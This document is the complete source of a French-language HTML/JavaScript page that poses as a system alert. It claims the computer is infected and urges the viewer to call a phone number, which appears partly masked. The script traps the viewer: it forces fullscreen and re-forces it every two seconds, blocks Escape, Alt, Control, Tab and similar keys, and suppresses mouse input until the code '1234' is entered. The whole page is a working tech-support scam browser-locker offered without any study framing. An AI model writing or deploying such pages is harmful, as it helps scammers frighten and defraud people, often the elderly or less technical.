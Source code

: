 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Alerte Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            user-select: none;
            cursor: none; /* Désactive totalement le pointeur */
        }
        html, body {
            width: 100vw;
            height: 100vh;
            background: black;
            color: white;
            font-family: Arial, sans-serif;
            text-align: center;
            overflow: hidden;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            width: 100%;
            height: 100%;
            padding: 5%;
        }
        .message {
            font-size: 5vw;
            font-weight: bold;
        }
        .alert-number {
            font-size: 4vw;
            font-weight: bold;
            color: red;
        }
        #codeInput {
            margin-top: 20px;
            padding: 15px;
            font-size: 3vw;
            text-align: center;
            border: 3px solid white;
            width: 50%;
            background: black;
            color: white;
            outline: none;
        }
        #error-message {
            color: red;
            font-size: 2vw;
            margin-top: 10px;
        }
    </style>
</head>
<body>

    <div class="container">
        <p class="message">⚠️ Votre ordinateur est infecté ⚠️<br>Appelez immédiatement :</p>
        <p class="alert-number">+33 6 XX XX XX 09</p>
        <p style="font-size: 3vw;">Entrez le code de déverrouillage :</p>
        <input type="password" id="codeInput" placeholder="Code secret">
        <p id="error-message"></p>
    </div>

    <audio id="keypress-sound">
        <source src="https://www.soundjay.com/button/beep-07.wav" type="audio/wav">
    </audio>

    <script>
        function openFullscreen() {
            let elem = document.documentElement;
            if (elem.requestFullscreen) {
                elem.requestFullscreen();
            } else if (elem.mozRequestFullScreen) { 
                elem.mozRequestFullScreen();
            } else if (elem.webkitRequestFullscreen) { 
                elem.webkitRequestFullscreen();
            } else if (elem.msRequestFullscreen) { 
                elem.msRequestFullscreen();
            }
        }
        openFullscreen();

        // Bloquer tous les raccourcis clavier
        document.addEventListener("keydown", function(event) {
            let blockedKeys = ["Escape", "Tab", "F11", "F4", "Alt", "Control", "Meta"];
            if (blockedKeys.includes(event.key) || (event.ctrlKey && event.key === "w")) {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver totalement la touche Échap
        window.addEventListener("keydown", function(event) {
            if (event.key === "Escape") {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver complètement la souris
        window.addEventListener("mousemove", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mousedown", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mouseup", function(event) {
            event.preventDefault();
        });
        window.addEventListener("contextmenu", function(event) {
            event.preventDefault();
        });
        window.addEventListener("wheel", function(event) {
            event.preventDefault();
        });

        // Empêcher la sortie du plein écran
        document.addEventListener("fullscreenchange", function() {
            if (!document.fullscreenElement) {
                openFullscreen();
            }
        });

        // Ajouter un son à chaque touche pressée
        let inputField = document.getElementById("codeInput");
        let errorMessage = document.getElementById("error-message");
        let sound = document.getElementById("keypress-sound");

        inputField.addEventListener("keydown", function(event) {
            if (!["Enter", "Backspace"].includes(event.key)) {
                sound.play();
            }
        });

        // Vérifier le code
        inputField.addEventListener("keyup", function(event) {
            if (event.key === "Enter") {
                if (this.value === "1234") {  
                    document.body.innerHTML = "<h1 style='color: white; text-align: center; margin-top: 20%; font-size: 5vw;'>✅ Système restauré</h1>";
                } else {
                    errorMessage.innerText = "Code incorrect !";
                    this.value = "";
                }
            }
        });

        // Focus automatique sur le champ
        window.onload = function() {
            inputField.focus();
        };

        // Reforcer le plein écran toutes les 2 secondes
        setInterval(openFullscreen, 2000);

    </script>

</body>
</html>
